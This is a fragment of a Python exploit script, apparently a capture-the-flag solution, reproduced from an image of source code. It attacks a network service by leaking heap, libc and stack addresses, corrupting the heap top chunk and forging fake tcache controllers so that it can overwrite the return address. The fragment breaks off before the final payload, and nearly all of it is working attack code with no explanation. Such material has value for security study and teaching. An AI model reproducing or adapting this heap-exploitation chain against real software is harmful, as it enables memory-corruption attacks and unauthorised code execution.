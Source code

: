 ```python
sock.recvuntil(":[")
leak = sock.recvuntil("]\n", drop=True)
# logger.info(f"heap leak address: {hex(u64(leak))}")
heap_base = u64(leak) - 0x21BC0
logger.info(f"heap base address: {hex(heap_base)}")

sock.sendafter(":[PKT_RES]\n", p64(0x780))
sock.sendline(p64(0x0) + b"C" * 0x778 + p32(0x441))  # tamper the size of top chunk

# _int_free: largebins
sock.sendafter(":[PKT_RES]\n", p64(0xBB0))
sock.sendline(p64(0x0) + b"D" * 0xBA8 + p32(0x441))  # tamper the size of top chunk

# _int_free: largebins
sock.sendafter(":[PKT_RES]\n", p64(0xBB0))
sock.sendline(p64(0x3)[:-1])

# fake tcachebins controller no.1
sock.sendafter(":[PKT_RES]\n", p64(0x90))
sock.sendline(
    p64(0x1) + p64(0x1) + p64(0x0) * 0xF + p64(heap_base + 0x65BC0)[:-1]
)  # largebins address

# allocate front of tls & tamper the fake tcachebins controller no.1
sock.sendafter(":[PKT_RES]\n", p64(0x22000))
sock.sendline(
    p64(0x0) + b"E" * 0x236D8 + p64(heap_base + 0x21C10)[:-1]
)  # -> fake tcachebins controller no.1

# libc base address leak
sock.sendafter(":[PKT_RES]\n", p64(0x18))
sock.sendline(p64(0x1)[:-1])
sock.recvuntil(":[")
leak = sock.recvuntil("]\n", drop=True)
# logger.info(f"libc leak address: {hex(u64(leak))}")
libc.base = u64(leak) - 0x21A0D0

# fake tcachebins controller no.2
sock.sendafter(":[PKT_RES]\n", p64(0x90))
sock.sendline(
    p64(0x1) + p64(0x1) + p64(0x0) * 0xF + p64(libc.base + 0x21AA10)[:-1]
)  # libc address (on stack address)

# tamper the fake tcachebins controller
sock.sendafter(":[PKT_RES]\n", p64(0x22000))
sock.sendline(
    p64(0x0) + b"F" * 0x466D8 + p64(heap_base + 0x21CB0)[:-1]
)  # -> fake tcachebins controller no.2

# stack address leak
sock.sendafter(":[PKT_RES]\n", p64(0x18))
sock.sendline(p64(0x1)[:-1])
sock.recvuntil(":[")
stack_leak = sock.recvuntil("]\n", drop=True)
logger.info(f"stack leak address: {hex(u64(stack_leak))}")
return_address = u64(stack_leak) - 0x150
logger.info(f"return address: {hex(return_address)}")

# fake tcachebins controller no.3
sock.sendafter(":[PKT_RES]\n", p64(0x90))
sock.sendline(
    p64(0x1) + p64(0x1) + p64(0x0) * 0xF + p64(return_address - 0x18)[:-1]
)  # return address - 0x18
```